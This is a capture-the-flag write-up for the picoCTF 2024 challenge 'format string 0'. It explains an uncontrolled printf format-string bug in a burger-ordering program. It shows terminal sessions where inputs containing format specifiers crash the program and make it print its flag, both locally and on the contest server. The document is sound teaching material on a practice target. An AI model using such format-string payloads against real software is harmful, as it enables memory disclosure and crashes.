 # format string 0

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 50
Tags: picoCTF 2024, Binary Exploitation, format_string, browser_webshell_solvable
Author: CHENG ZHANG

Description:
Can you use your knowledge of format strings to make the customers happy?

Download the binary here.
Download the source here.

Connect with the challenge instance here:
nc mimas.picoctf.net 58598
 
Hints:
1. This is an introduction of format string vulnerabilities. Look up "format specifiers" 
   if you have never seen them before.
2. Just try out the different options
```
Challenge link: [https://play.picoctf.org/practice/challenge/433](https://play.picoctf.org/practice/challenge/433)

## Solution

### Analyse the C file

We start by analysing the rather long C source code. First the `main` function.
```c
int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}
```
Main basically does the following:
- Make sure there is a `flag.txt` file available, 
- Sets up a signal handler for `SIGSEGV` (Invalid memory references)
- Sets permissions (user and group IDs) with `setresgid`
- Calls the `serve_patrick` function

If an invalid memory reference happens the `sigsegv_handler` function is called
```c
void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
```
and will display the flag for us.

Let's skip the rest of the source code for now and try out the binary.

### Run the binary locally

Next, we run the binary
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ ./format-string-0  
Please create 'flag.txt' in this directory with your own debugging flag.

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ echo "picoCTF{fake_flag}" > flag.txt                                        

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ ./format-string-0                  
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak

picoCTF{fake_flag}


┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ 
```
Of the choices I chose `Gr%114d_Cheese` and `Cla%sic_Che%s%steak` because the both contains [format specifiers](https://www.freecodecamp.org/news/format-specifiers-in-c/) which will cause the program to remove additional items on [the stack](https://en.wikipedia.org/wiki/Stack-based_memory_allocation) and cause an invalid memory reference.

The vulnerabilities are in the `printf` calls without one or more format specifiers, i.e.
- The line `int count = printf(choice1);` in the `serve_patrick` function and
- The line `printf(choice2);` in the `serve_bob` function

### Get the flag

Finally, we connect to the site vith netcat and gives the same answers to get the real flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ nc mimas.picoctf.net 58598
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{<REDACTED>}

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ 
```

For additional information, please see the references below.

## References

- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [setresuid - Linux manual page](https://man7.org/linux/man-pages/man2/setresuid.2.html)
- [signal - Linux manual page](https://man7.org/linux/man-pages/man7/signal.7.html)
- [freeCodeCamp - Format Specifiers in C](https://www.freecodecamp.org/news/format-specifiers-in-c/)
- [Wikipedia - Stack-based memory allocation](https://en.wikipedia.org/wiki/Stack-based_memory_allocation)
- [Wikipedia - Uncontrolled format string](https://en.wikipedia.org/wiki/Uncontrolled_format_string)
